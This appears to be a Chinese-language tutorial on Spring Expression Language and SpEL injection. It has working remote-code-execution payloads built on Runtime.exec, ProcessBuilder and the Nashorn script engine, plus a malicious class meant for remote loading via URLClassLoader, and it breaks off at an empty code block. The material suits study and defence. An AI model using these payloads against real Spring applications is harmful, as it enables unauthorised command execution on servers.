









参考文章：

https://xz.aliyun.com/news/16342

https://forum.butian.net/share/2483

## 0x01SpEL表达式

官方文档：https://docs.spring.io/spring-framework/reference/core/expressions.html

SpEL（Spring Expression Language）简称Spring表达式语言，是一种功能强大的表达式语言，它可以用于在Spring配置中动态地访问和操作对象属性、调用方法、执行计算等，SPEL的设计目标是让Spring应用程序中的bean配置和运行时操作更加灵活和可扩展，其语法和OGNL、MVEL等表达式语法类似。

SpEL是Spring产品组合中表达评估的基础，但它并不直接与Spring绑定,可以独立使用。

## 0x02常见表达式

一些比较常见的表达式

| 运算符类型 | 运算符                               |
| :--------- | :----------------------------------- |
| 算数运算   | +, -, *, /, %, ^                     |
| 关系运算   | <, >, ==, <=, >=, lt, gt, eq, le, ge |
| 逻辑运算   | and, or, not, !                      |
| 条件运算   | ?:(ternary), ?:(Elvis)               |
| 正则表达式 | matches                              |

| 运算符   | 符号 | 文本类型 |
| :------- | :--- | :------- |
| 等于     | ==   | eq       |
| 小于     | <    | lt       |
| 小于等于 | <=   | le       |
| 大于     | >    | gt       |
| 大于等于 | >=   | ge       |

## 0x03使用方法

从使用方法上来看，一共分为三类，分别是直接在注解中使用，在XML文件中使用和直接在代码块中使用。

### @value注解中动态注入

在Spring框架中我们可以使用@Value注解结合SpEL表达式来动态注入值

```java
package org.example.springdemo;

import org.springframework.beans.factory.annotation.Value;
import org.springframework.stereotype.Component;

@Component
public class ValueTest {

    // 使用SpEL进行加法运算
    @Value("#{10 + 20}")
    private int sum;

    // 使用SpEL进行减法运算
    @Value("#{30 - 15}")
    private int difference;

    // 使用SpEL进行乘法运算
    @Value("#{5 * 6}")
    private int product;

    // 使用SpEL进行除法运算
    @Value("#{40 / 8}")
    private int quotient;

    // 使用SpEL进行求余运算
    @Value("#{10 % 3}")
    private int remainder;

    public void displayResults() {
        System.out.println("Sum: " + sum);
        System.out.println("Difference: " + difference);
        System.out.println("Product: " + product);
        System.out.println("Quotient: " + quotient);
        System.out.println("Remainder: " + remainder);
    }
}

```



我们跟进这个注解看一下



解释一下

```java
@Target({
    ElementType.FIELD,           // 可用于字段
    ElementType.METHOD,          // 可用于方法（如 setter）
    ElementType.PARAMETER,       // 可用于构造函数或方法参数
    ElementType.ANNOTATION_TYPE  // 可用于注解内嵌注解（meta-annotation）
})
```

这里表示了value注解可以用在哪些地方

```java
@Retention(RetentionPolicy.RUNTIME)
```

说明 `@Value` 注解会在 **运行时保留**，Spring 框架可以在运行时通过反射读取这个注解的值。

XML配置文件中使用，我还没学xml，这里暂时不写

### 代码块中使用表达式

这个的话主要涉及四个步骤：

1. 创建解析器：SpEL 使用 ExpressionParser 接口表示解析器，提供 SpelExpressionParser 默认实现；
2. 解析表达式：使用 ExpressionParser 的 parseExpression 来解析相应的表达式为 Expression 对象；
3. 构造上下文：上下文其实就是设置好某些变量的值，执行表达式时根据这些设置好的内容区获取值；（可选，必须在取值前设置变量）
4. 表达式求值：通过 Expression 接口的 `getValue` 方法根据上下文获得表达式值。

例如我们这里写个demo测试一下

```java
package org.example.springdemo;

import org.springframework.expression.EvaluationContext;
import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;
import org.springframework.expression.spel.support.StandardEvaluationContext;

public class SpELTest {
    public static void main(String[] args) {

        //1、创建解析器
        ExpressionParser parser = new SpelExpressionParser();
        //2、解析表达式
        Expression expression = parser.parseExpression("'Hello '.concat(#end)");
        //3、创建上下文
        EvaluationContext context = new StandardEvaluationContext();
        //定义变量
        context.setVariable("end", "wanth3f1ag");
        //求表达式值
        System.out.println(expression.getValue(context));//输出Hello wanth3f1ag
    }
}
```

## 0x04漏洞原理

SpEL表达式语言主要用于将表达式解析为AST语法树并计算每个树节点，由于SpEL表达式可以操作类及其对应的方法，所以当用户可以控制输入的表达式并且可以绕过黑名单限制时便可以达到RCE的目的。

SpEL表达式的典型代码

```java
ExpressionParser parser = new SpelExpressionParser();
Expression expression = parser.parseExpression(userInput);
Object result = expression.getValue();
```

如果这里userInput是用户可控的，那么就可以执行任意代码

### 类类型表达式

spel语法中的`T()`操作符 , `T()`操作符会返回一个object , 用法`T(全限定类名).方法名()`，**使用类类型表达式还可以进行访问类静态方法及类静态字段**

## 0x05漏洞利用

## RCE的第一部分

### java.lang.Runtime

因为getRuntime()是静态方法，所以直接用T()操作符，随后调用exec执行系统命令

```java
package org.example.springdemo;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpELTest {
    public static void main(String[] args) {

        String spel = "T(java.lang.Runtime).getRuntime().exec(\"calc\")";
        //1、创建解析器
        ExpressionParser parser = new SpelExpressionParser();
        //2、解析表达式
        Expression expression = parser.parseExpression(spel);
        //3、求表达式值
        System.out.println(expression.getValue());
    }
}
```



注意：如果java中需要传入带空格的路径或参数的话，需要把可执行程序与每个参数作为数组元素传入，Java 会正确处理包含空格的单个参数。

例如

```java
exec(new String[]{"open","/System/Appl ications/ Calculator.app"})
```

如果是需要用shell的话

如果你需要用到 shell 特性（例如重定向 `>`、管道 `|`、I/O 重定向到网络设备等），就得调用 shell 并把整个命令作为一个字符串传给 shell 的 `-c` / `/c`。这时就需要在 shell 字符串里做正确的引号处理

Linux中：

```java
exec(new String[]{"/bin/sh","-c",cmd})
```

windows中：

```java
exec(new String[]{"cmd.exe","/c",cmd})
```

但是因为exec函数本身就是只会返回一个进程对象






如果要打印命令执行结果的话，可以这么写

```java
String spel = "new java.io.BufferedReader(new java.io.InputStreamReader(T(java.lang.Runtime).getRuntime().exec(\"whoami\").getInputStream())).readLine()";
```

### ProcessBuilder

从上面最后一个exec函数可以看到，其实最终也是调用了ProcessBuilder的start方法去执行命令的

ProcessBuilder中的start方法可以执行任意命令，我们看一下源码


下面第二个start才是我们真正会调用到的，这里的话会启动一个子进程并执行程序，关注到这里的参数

```java
String prog = cmdarray[0];
```

这个就是需要执行的程序，跟进看一下这个属性command



发现构造函数可以给这个参数赋值，但是这里并不是静态方法，所以用new去实例化一个新对象并赋值

```java
package org.example.springdemo;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpELTest {
    public static void main(String[] args) {

        String spel = "new java.lang.ProcessBuilder(new String[]{\"calc\"}).start()";
        //1、创建解析器
        ExpressionParser parser = new SpelExpressionParser();
        //2、解析表达式
        Expression expression = parser.parseExpression(spel);
        //3、求表达式值
        System.out.println(expression.getValue());
    }
}
```



也是一样的，这里如果需要获取命令执行输出的话需要用到上面的poc

```java
String spel = "new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.ProcessBuilder(new String[]{\"whoami\"}).start().getInputStream())).readLine()";
```

### javax.script.ScriptEngineManager

我们先获取一下js引擎的信息

```java
package org.example.springdemo;

import javax.script.ScriptEngineFactory;
import javax.script.ScriptEngineManager;
import java.util.List;


public class SpELTest {
    public static void main(String[] args) {

        ScriptEngineManager manager = new ScriptEngineManager();
        List<ScriptEngineFactory> factories = manager.getEngineFactories();
        for (ScriptEngineFactory factory: factories){
            System.out.printf(
                    "Name: %s%n" + "Version: %s%n" + "Language name: %s%n" +
                            "Language version: %s%n" +
                            "Extensions: %s%n" +
                            "Mime types: %s%n" +
                            "Names: %s%n",
                    factory.getEngineName(),
                    factory.getEngineVersion(),
                    factory.getLanguageName(),
                    factory.getLanguageVersion(),
                    factory.getExtensions(),
                    factory.getMimeTypes(),
                    factory.getNames()
            );
        }
    }
}

```

输出

```java
Name: Oracle Nashorn
Version: 1.8.0_321
Language name: ECMAScript
Language version: ECMA - 262 Edition 5.1
Extensions: [js]
Mime types: [application/javascript, application/ecmascript, text/javascript, text/ecmascript]
Names: [nashorn, Nashorn, js, JS, JavaScript, javascript, ECMAScript, ecmascript]
```

根据执行结果中的Names我们知道了所有的JS引擎名称，故getEngineByName的参数可以填[nashorn, Nashorn, js, JS, JavaScript, javascript, ECMAScript, ecmascript]

所以我们构建poc

需要注意，getEngineByName不是静态方法，故需要用new去执行

```java
package org.example.springdemo;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;


public class SpELTest {
    public static void main(String[] args) {
        String spel = "new javax.script.ScriptEngineManager().getEngineByName(\"nashorn\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";
        //1、创建解析器
        ExpressionParser parser = new SpelExpressionParser();
        //2、解析表达式
        Expression expression = parser.parseExpression(spel);
        //3、求表达式值
        System.out.println(expression.getValue());
    }
}
```



解释一下spel代码

```java
new javax.script.ScriptEngineManager().getEngineByName("nashorn").eval("s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);")
```

使用 Java 自带的脚本引擎 **Nashorn** 来执行 JavaScript 代码，最终目的是 **弹出计算器**

```java
s = [1];                     // 创建一个 JavaScript 数组 s，初始元素是 1
s[0] = 'calc';              // 将数组第一个元素替换为字符串 'calc'
java.lang.Runtime.getRuntime().exec(s);
```

这里的话用其他引擎也是可以的，同理JavaScript

```java
package org.example.springdemo;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;


public class SpELTest {
    public static void main(String[] args) {
        String spel = "new javax.script.ScriptEngineManager().getEngineByName(\"javascript\").eval(\"s=[1];s[0]='calc';java.lang.Runtime.getRuntime().exec(s);\")";
        //1、创建解析器
        ExpressionParser parser = new SpelExpressionParser();
        //2、解析表达式
        Expression expression = parser.parseExpression(spel);
        //3、求表达式值
        System.out.println(expression.getValue());
    }
}
```



## RCE的第二部分

这里的话主要是利用类加载机制去反射构造RCE

JVM拥有多种ClassLoader, 不同的 ClassLoader 会从不同的地方加载字节码文件, 加载方式可以通过不同的文件目录加载, 也可以从不同的 jar 文件加载，还包括使用网络服务地址来加载。几个重要的 ClassLoader : `BootstrapClassLoader`、`ExtensionClassLoader` 和`AppClassLoader`、`UrlClassLoader`

### UrlClassLoader

URLClassLoader 可以加载远程类库和本地路径的类库，调用思路 : 远程加载class文件，通过函数调用或者静态代码块来调用

例如我们在自己本地上构造一个恶意类

```java
import java.io.IOException;

public class POC {
    static {
        try {
            Runtime.getRuntime().exec("whoami");
        } catch (IOException e) {
            throw new RuntimeException(e);
        }
    }
}
```

编译为class文件，然后我们在该目录下起一个http服务

```python
python -m http.server 8000
```

然后我们进行表达式注入

```java
```
